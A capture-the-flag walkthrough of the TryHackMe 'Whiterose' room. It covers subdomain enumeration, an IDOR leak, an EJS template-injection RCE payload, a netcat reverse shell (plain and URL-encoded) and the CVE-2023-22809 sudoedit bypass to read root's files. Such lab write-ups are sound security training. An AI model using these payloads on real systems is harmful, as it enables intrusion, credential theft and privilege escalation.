




# TryHackMe: Whiterose

**Platform:** TryHackMe

**Room:** [Whiterose](https://tryhackme.com/room/whiterose)

**Difficulty:** Easy

**Focus:** A Mr. Robot themed challenge involving subdomain enumeration, IDOR, EJS SSTI/RCE, and sudoedit privilege escalation.

**⚠️Disclaimer:** This writeup contains step-by-step solutions. Flags and sensitive information have been redacted (`THM{...}`, `[REDACTED]`) to encourage active learning.

---

## 📑 Table of Contents

- [Setup & Connection](#setup--connection)
- [Task 1: Introduction](#task-1-introduction)
- [Reconnaissance](#reconnaissance)
- [Subdomain Enumeration](#subdomain-enumeration)
- [Logging In & IDOR](#logging-in--idor)
- [Task 1 Answer: Tyrell's Phone Number](#task-1-answer-tyrells-phone-number)
- [Accessing Customer Settings](#accessing-customer-settings)
- [Burp Suite Reconnaissance](#burp-suite-reconnaissance)
- [Finding the EJS Vulnerability](#finding-the-ejs-vulnerability)
- [Exploitation & RCE](#exploitation--rce)
- [Task 2 Answer: user.txt Flag](#task-2-answer-usertxt-flag)
- [Upgrading to a Reverse Shell](#upgrading-to-a-reverse-shell)
- [Privilege Escalation via sudoedit](#privilege-escalation-via-sudoedit)
- [Task 3 Answer: root.txt Flag](#task-3-answer-roottxt-flag)
- [Conclusion](#conclusion)

---

## Setup & Connection

First, connect to the TryHackMe network using OpenVPN, then start the lab machine.

```bash
sudo openvpn <your_configuration_file>.ovpn
```

Once the machine boots up, you'll get the target IP. Let's begin our reconnaissance.

---

## Task 1: Introduction

This challenge is based on the Mr. Robot episode "409 Conflict". The room provides a single credential hint to get us started:

> **Olivia Cortez:[REDACTED]**

Our goals are to find Tyrell Wellick's phone number, compromise the machine, and capture both the user and root flags.

---

## Reconnaissance

First, we run an `nmap` scan against the target to identify open ports and services.

```bash
nmap 10.130.173.37
```
```text
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-25 14:13 +0100
Nmap scan report for 10.130.173.37
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.61 seconds
```

**Alternative Enumeration:**
We can also use [Viper](https://github.com/Vlone-p/viper), a custom Python port scanner (`viper.py`), as a faster alternative to Nmap.

```bash
python viper.py 10.130.173.37 -sV
```
```text
____   ____.__                                                                              
\   \ /   /|__|_____   ___________                                                          
 \   Y   / |  \____ \_/ __ \_  __ \                                                         
  \     /  |  |  |_> >  ___/|  | \/                                                         
   \___/   |__|   __/ \___  >__|                                                            
              |__|        \/       v2.3.1                                                    

[*] Loaded 1 target(s)
[*] Thread count set to 100

[*] Scanning 99 ports on 1 hosts...

[+] Discovered open port 80/tcp on 10.130.173.37
[+] Discovered open port 22/tcp on 10.130.173.37
============================================================
SCAN RESULTS
============================================================

Target: 10.130.173.37
PORT       STATE      SERVICE
-----------------------------
22         open      OpenSSH 7.6p1 Ubuntu-4ubuntu0.7
80         open      nginx/1.14.0 (Ubuntu)

============================================================
Scan completed in 0.12 seconds
```

Both scans confirm ports 22 (SSH) and 80 (HTTP) are open.

Before we can visit the web server in our browser, we need to add the host to our `/etc/hosts` file so the domain resolves correctly:

```bash
sudo nano /etc/hosts
```

Add the following entry:
```text
10.130.173.37   cyprusbank.thm
```

Now we can visit the site at `http://cyprusbank.thm/`, which shows a maintenance page:


Directory scanning didn't reveal anything useful, so we move on to subdomain enumeration.

---

## Subdomain Enumeration

We use `ffuf` to enumerate subdomains:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```
```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 53ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 183ms]
```

We discovered two subdomains: `www` and `admin`. Let's add the `admin` subdomain to `/etc/hosts`:

```text
10.130.173.37   admin.cyprusbank.thm
```

Visiting `http://admin.cyprusbank.thm/` redirects us to `/login`.

---

## Logging In & IDOR

Using the credentials provided in the introduction, we log into the admin panel. We're immediately presented with the admin dashboard showing recent payments and account information:



Exploring the admin panel, we find a Messages section with an IDOR (Insecure Direct Object Reference) vulnerability. By manipulating the `c` parameter, we can read other users' messages:

```
http://admin.cyprusbank.thm/messages/?c=5
```

This reveals a message from Gayle Bev containing credentials:

> **Gayle Bev:[REDACTED]**

*(Credentials redacted in this writeup. Walk the IDOR chain yourself to retrieve them!)*

We can now log in with these new credentials and continue exploring the panel.

---

## Task 1 Answer: Tyrell's Phone Number

Looking through the accounts on the dashboard, we find Tyrell Wellick's phone number.

**What's Tyrell Wellick's phone number?**
> ✅ **Answer:** `[REDACTED - Format: XXX-XXX-XXXX]`

*(Phone number redacted. Walk the exploitation chain yourself to reveal it!)*

---

## Accessing Customer Settings

Now that we're logged in with the new credentials, we can navigate to the Customer Settings page, which allows us to reset customer passwords:



This page submits a POST request to `/settings` with `name` and `password` parameters. This is where things get interesting.

---

## Burp Suite Reconnaissance

We open Burp Suite and configure our browser to proxy through it. We intercept a request from the Customer Settings page and send it to the Repeater for further analysis:



The POST request to `/settings` includes `name` and `password` parameters. We notice the application is built with Node.js/Express (from the response headers).

---

## Finding the EJS Vulnerability

After researching, we find a known vulnerability in EJS (Embedded JavaScript templates):

- **Reference:** https://github.com/mde/ejs/issues/735

The vulnerable payload uses `settings[view options]` to inject arbitrary code through the `escapeFunction` parameter:

```text
&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('id');
```

---

## Exploitation & RCE

We modify the request in Burp Suite with our payload to execute the `ls` command as proof of concept:

```text
&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('ls');
```

The response confirms RCE works, listing the web application's directory:



The directory listing reveals:
```text
components
index.js
node_modules
package.json
package-lock.json
routes
static
views
```

We now have remote code execution on the target!

---

## Task 2 Answer: user.txt Flag

With RCE confirmed, we can read the user flag directly by injecting a `cat` command:

```bash
cat /home/web/user.txt
```

**What is the user.txt flag?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the exploitation chain yourself to retrieve it!)*

---

## Upgrading to a Reverse Shell

For easier interaction with the system, we'll upgrade to a full reverse shell. You can use [revshells.com](https://revshells.com) or, in this case, I used my own shell generator tool, [Forgecast](https://github.com/Vlone-p/Forgecast) (still in beta but works great):

Set up a listener on our attack box:
```bash
nc -lvnp 9001
```

We use the following reverse shell payload:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.180 9001 >/tmp/f
```

Since we're injecting this through a URL parameter in Burp Suite, we URL-encode all characters:
```text
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%39%32%2e%31%36%38%2e%31%33%30%2e%31%38%30%20%39%30%30%31%20%3e%2f%74%6d%70%2f%66
```

We receive a shell on our listener! Now we upgrade it to a fully interactive TTY:
```bash
$ SHELL=/bin/bash script -q /dev/null
web@cyprusbank:~/app$ 
```

---

## Privilege Escalation via sudoedit

With our shell as the `web` user, we check what sudo privileges we have:

```bash
web@cyprusbank:~/app$ sudo -l
```
```text
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We can run `sudoedit` as root on a specific file. Researching this, we find **CVE-2023-22809**, a sudoedit bypass vulnerability:

- **Reference:** https://www.vicarus.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

The trick is to abuse the `EDITOR` environment variable to read arbitrary files. We set `EDITOR` to `vi` with an extra argument pointing to `/root/root.txt`:

```bash
web@cyprusbank:~/app$ export EDITOR="vi -- /root/root.txt"
```

Then we run sudoedit:
```bash
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
```text
sudo: sudoedit doesn't need to be run via sudo
sudo: --: editing files in a writable directory is not permitted
2 files to edit
sudo: /root/root.txt unchanged
sudo: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
```

Despite the warnings, `vi` opens with `/root/root.txt` loaded, allowing us to read the root flag directly!

---

## Task 3 Answer: root.txt Flag

**What is the root.txt flag?**
> ✅ **Answer:** `THM{...}`

*(Flag redacted. Walk the privilege escalation chain yourself to retrieve it!)*

---

## Conclusion

The Whiterose room is a great chain of common web and Linux vulnerabilities:

1. **Subdomain enumeration** with `ffuf` to find hidden admin panels
2. **IDOR** to leak user credentials from messages
3. **EJS SSTI/RCE** through `settings[view options][escapeFunction]` injection
4. **Reverse shell** upgrade for a proper TTY
5. **sudoedit privilege escalation** via CVE-2023-22809 using the `EDITOR` env variable

The Mr. Robot theme makes it even more fun to walk through. Big thanks for [tryhackme](https://tryhackme.com/p/tryhackme) and [ngn](https://tryhackme.com/p/ngn) for putting this one together!

**Useful Resources:**
- [EJS SSTI Vulnerability - GitHub Issue #735](https://github.com/mde/ejs/issues/735)
- [CVE-2023-22809 sudoedit Bypass Analysis](https://www.vicarus.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
- [revshells.com](https://revshells.com)
- [Forgecast - Custom Reverse Shell Generator](https://github.com/Vlone-p/Forgecast)
- [Viper - Custom Python Port Scanner](https://github.com/Vlone-p/viper)

***
